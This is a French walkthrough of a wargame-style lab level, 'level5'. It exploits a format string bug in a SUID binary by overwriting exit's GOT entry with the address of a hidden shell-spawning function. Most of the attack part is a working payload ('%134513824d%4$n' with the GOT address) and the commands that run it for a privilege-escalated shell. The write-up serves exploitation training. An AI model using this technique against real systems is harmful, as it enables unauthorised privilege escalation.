



# LEVEL 5

## 1. Introduction

Le binaire `level5` présente une vulnérabilité de **format string** avec une approche différente : au lieu de modifier une variable globale, nous devons **écraser l'entrée GOT** (Global Offset Table) de la fonction `exit()` pour rediriger l'exécution vers une fonction cachée `o()` qui lance un shell.

On a encore la même chose que les exercices précédents :



## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level5
-rwsr-s---+ 1 level6  level5  747441 Mar  6  2016 level5
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe la structure suivante :

```c
void o(void) {
    system("/bin/sh");  // ← Notre cible !
    _exit(1);
}

void n(void) {
    char local_20c[520];  // Buffer de 520 octets
    
    fgets(local_20c, 0x200, stdin);  // Lecture sécurisée
    printf(local_20c);                // ← Vulnérabilité format string !
    exit(1);                          // ← Cible à écraser
}
```

**Points clés :**
- `printf()` sans spécificateur = vulnérabilité format string
- Fonction `o()` lance un shell (notre cible)
- `exit(1)` est appelé après `printf()` (cible à écraser)
- Buffer de 520 octets avec `fgets()` (lecture sécurisée)

### 2.3 Objectif de l'exploitation

Dans Ghidra on voit des choses intéressantes, car cette fois c'est la fonction `o` qui exécute le shell, et dans la fonction `n`, on voit qu'il y a un `exit`, et avant ça un simple `printf` de notre input. On peut donc encore une fois faire un format string attack.

Le but est **d'écraser** l'entrée GOT de `exit` pour qu'elle pointe vers `o()`.

## 3. Exploitation

### 3.1 Étape 1 : Localisation de la fonction cible

Il nous faut dans un premier temps l'adresse de `o` qu'on peut voir très simplement avec Ghidra :


C'est donc **`\xa4\x84\x04\x08`** en little-endian.

**Adresse de `o()` : `0x080484a4`**

### 3.2 Étape 2 : Localisation de l'entrée GOT d'exit

Le but est **d'écraser** l'entrée GOT de `exit` pour qu'elle pointe vers `o()`. Il nous faut donc l'adresse de `exit` :

On peut l'avoir de cette façon : `objdump -R level5 | grep exit` et on obtient `0x08049838` soit **`\x38\x98\x04\x08`**

**Adresse GOT d'exit : `0x08049838`**

### 3.3 Étape 3 : Conversion de l'adresse en décimal

Pour exploiter le format string il nous faut convertir l'adresse de `o` en décimal, comme ça on pourra écrire tant de caractères avec `printf`, ce qui donne en décimal **134513828** et on enlève 4 octets car il y a aussi l'adresse de `exit` donc pour notre payload on va utiliser **134513824**.

**Calcul :**
- Adresse de `o()` : `0x080484a4` = 134513828 en décimal
- Moins 4 octets pour l'adresse GOT = **134513824**

### 3.4 Étape 4 : Détermination de la position

Comme les autres format string, il nous faut aussi la position des arguments de `printf`, toujours avec la commande :

```bash
echo -e "AAAA %p %p %p %p %p %p %p" | ./level5
```



Et c'est à la **4ème position**.

### 3.5 Étape 5 : Construction du payload

Le payload final sera :

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5
```

### 3.6 Exécution de l'exploit

On peut faire en une seule commande :

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5 && cat /tmp/payload5 - | ./level5
```



### 3.7 Commandes complètes

```bash
# Se connecter au niveau
ssh level5@<IP> -p 4242

# Créer le payload
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5

# Exécuter l'exploit
cat /tmp/payload5 - | ./level5
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│                GOT OVERWRITE                           │
├─────────────────────────────────────────────────────────┤
│  Adresse GOT[4] + Directive padding + Directive écriture│
│  │                                                    │
│  └─→ \x38\x98\x04\x08 + "%134513824d" + "%4$n"     │
│      │                                                │
│      └─→ printf() interprète %Nd comme padding      │
│          │                                            │
│          └─→ %134513824d génère 134513824 caractères │
│              │                                        │
│              └─→ %4$n écrit 134513828 dans GOT exit  │
│                  │                                    │
│                  └─→ GOT exit pointe vers o()        │
│                      │                               │
│                      └─→ exit() appelle o() à la place│
│                          │                           │
│                          └─→ system("/bin/sh")       │
│                              │                       │
│                              └─→ Shell level6        │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure du payload

```
┌─────────────────┐
│ Adresse GOT     │ ← 4 octets (\x38\x98\x04\x08)
│    d'exit       │
├─────────────────┤
│ %134513824d     │ ← Directive de padding
├─────────────────┤
│ %4$n            │ ← Directive d'écriture
└─────────────────┘
```

### 4.3 Redirection GOT

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Avant         │    │   Écrasement    │    │   Après          │
│   GOT exit      │    │   %4$n          │    │   GOT exit       │
│   0x08049838    │───▶│   134513828     │───▶│   0x080484a4     │
│   → libc exit   │    │   → o()         │    │   → o()          │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. printf() reçoit notre entrée avec directive %Nd
2. %134513824d affiche un nombre avec 134513824 caractères de padding
3. Le total de caractères imprimés devient 134513828 (4+134513824)
4. %4$n écrit 134513828 à l'adresse GOT d'exit (0x08049838)
5. L'entrée GOT d'exit pointe maintenant vers o() (0x080484a4)
6. Quand exit() est appelé, o() s'exécute à la place
7. o() appelle system("/bin/sh")
8. Shell s'ouvre avec les privilèges SUID de level6
```

### 4.5 Visualisation de la redirection

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Format String │    │   GOT Overwrite │    │   Redirection   │
│   %4$n         │───▶│   exit → o()    │───▶│   system("/sh") │
│                │    │   0x08049838     │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.6 Mécanisme de GOT Overwrite

```
┌─────────────────┐
│ Adresse GOT     │ ← Pointeur vers l'entrée GOT d'exit
│    d'exit       │
├─────────────────┤
│ %134513824d     │ ← Affiche avec 134513824 caractères de padding
├─────────────────┤
│ %4$n            │ ← Écrit le total (4+134513824) à l'adresse GOT
└─────────────────┘
```

### 4.7 Comparaison des techniques

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Level 3-4     │    │   Level 5       │    │   Avantage      │
│   Variable      │    │   GOT Overwrite │    │   Redirection   │
│   Modification  │───▶│   Function      │───▶│   d'exécution   │
│   m = 64        │    │   Pointer       │    │   sans code     │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre l'importance de la protection de la GOT et l'utilisation de techniques avancées de format string pour rediriger l'exécution de programmes. 